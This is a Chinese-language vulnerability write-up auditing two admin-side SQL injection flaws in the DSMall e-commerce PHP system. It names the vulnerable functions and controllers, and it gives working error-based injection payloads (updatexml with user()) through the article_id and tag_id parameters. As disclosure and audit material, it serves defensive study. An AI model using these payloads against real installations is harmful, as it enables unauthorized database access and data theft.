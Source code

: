 ### SQL注入漏洞一：

利用条件：后台管理员账户权限  
公共模块common/Model/Artcle.php editArticle 和delArticle存在SQL注入漏洞，审计代码只有delArticle函数中的漏洞可被利用。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t014182efdca9779b26.jpg)

applicationadmincontrollerArticle.php 删除文章功能的Drop方法调用了delArticle 且参数可控，$_GET[artcile_id]==input(‘param.article_id’)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01522c4d3a8ff94a70.jpg)

Poc:  
[http://test.com//dsmall506/public/index.php/admin/article/drop.html?article_id=42+and%20updatexml(1,concat(0x7e,user()),1)](http://test.com//dsmall506/public/index.php/admin/article/drop.html?article_id=42+and%20updatexml(1,concat(0x7e,user()),1))

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d5a0e1e0862d3ab1.jpg)

### SQL注入漏洞二：

利用条件：后台管理员权限  
公共模块 Goodsclasstag.php delGoodsclasstagByIds 函数存在SQL注入漏洞。  
applicationcommonmodelGoodsclasstag.php

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01f3d8e5e1e30360ab.jpg)

在Admin 控制器tag方法中对delGoodsclasstagByIds函数进行了调用，参数使用thinkphp封装函数input获取，类型是一个数组  
aplicationadmincontrollerGoodsclass.php  
public function tag()

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01de73c9ede971bf49.jpg)

Poc:  
[http://test.com/dsmall506/public/index.php?s=admin/goodsclass/tag](http://test.com/dsmall506/public/index.php?s=admin/goodsclass/tag)  
Data:  
tag_id[0]= 1 and updatexml(1,user(),1)&submit_type=del

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0171c215d5658f9aa5.jpg)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01d6908511df2536e2.jpg)
